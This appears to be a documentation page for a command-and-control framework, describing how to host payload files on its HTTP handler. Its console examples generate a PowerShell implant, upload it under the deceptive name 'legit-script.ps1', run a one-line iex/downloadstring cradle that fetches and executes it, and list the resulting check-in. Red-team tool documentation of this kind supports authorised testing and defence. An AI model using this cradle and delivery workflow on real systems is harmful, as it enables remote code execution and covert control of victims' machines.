 # Hosting Files

You can host arbitrary files on the default HTTP Handler, useful as a quick payload delivery method.

```{admonition} Note
:class: information

There is no automatic link between payload generation and hosting files, so you must generate and download a payload first and then upload it to the Handler.
```

## Adding

You may host any file from your own filesystem, by providing its path and the filename you want to host it with.

```text
[drones] # payloads

[payloads] # set handler default-http
[payloads] # set format PowerShell
[payloads] # generate C:\Temp\drone.ps1
[+] Saved 265692 bytes.

[payloads] # back
[drones] # hosted-files

[hosted-files] # help add
Add a hosted file
Usage: add </path/to/file> <filename>

[hosted-files] # add C:\Temp\drone.ps1 legit-script.ps1
[+] legit-script.ps1 uploaded.
```

```{admonition} Note
:class: information

Adding a hosted file will automatically start the Handler if it's not already.
```

## Listing

Listing the hosted files will show you their filename and size in bytes.

```text
[hosted-files] # list

Filename          Size
--------          ----
legit-script.ps1  265692
```

```text
PS C:\> iex (new-object net.webclient).downloadstring("http://localhost/legit-script.ps1")
```

```text
[drones] #
[+] Drone 0a14d78ee2 checked in.

[drones] # list

Guid        Address       Hostname      Username  Process    PID    Integrity  Arch  LastSeen
----        -------       --------      --------  -------    ---    ---------  ----  --------
0a14d78ee2  172.29.128.1  Ghost-Canyon  Daniel    powershell 14260  Medium     x64   0.51s
```

## Deleting

A hosted file may be removed by its filename.

```text
[hosted-files] # help delete
Remove a hosted file
Usage: delete <filename>

[hosted-files] # delete legit-script.ps1
[+] legit-script.ps1 deleted.

[hosted-files] # list
[hosted-files] #
```